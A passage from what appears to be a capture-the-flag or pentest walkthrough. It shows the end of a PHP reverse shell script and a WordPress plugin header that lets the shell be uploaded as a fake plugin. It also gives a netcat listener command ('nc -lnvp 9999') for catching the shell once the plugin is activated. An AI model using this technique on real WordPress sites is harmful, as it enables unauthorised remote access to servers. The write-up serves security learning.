 ```php
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

We need this part at the top:

```php
/*
Plugin Name:  Shelldon
Plugin URI: http://example.com
Description: Makes a Shelldon
Version: 1.0
Author: me
Author URI: http://www.me.com
Text Domain: revshell
Domain Path: /languages
*/
```

I honestly don’t know what it does exactly but it makes it look like a WordPress plugin and only that way we can upload it.

So let’s do just that, upload our plugin, but don’t activate it yet. Before that, we have to listen for incoming connections with netcat on our machine.

```bash
nc -lnvp 9999
```

Now if we activate the plugin in the WordPress interface, the page should be stuck in a loading loop, and we should have a reverse shell in the terminal we started the netcat listener in.

This shell is not really stable and we can’t use our arrows or autocomplete, so I am going to be using some poor man’s pentest and use the stabilizeshell.sh script. (If you don’t know what I am talking about, check out this video [here](https://www.youtube.com/watch?v=f2aSXGbD0NE))<br/>That way we can use all the nice features of a shell.
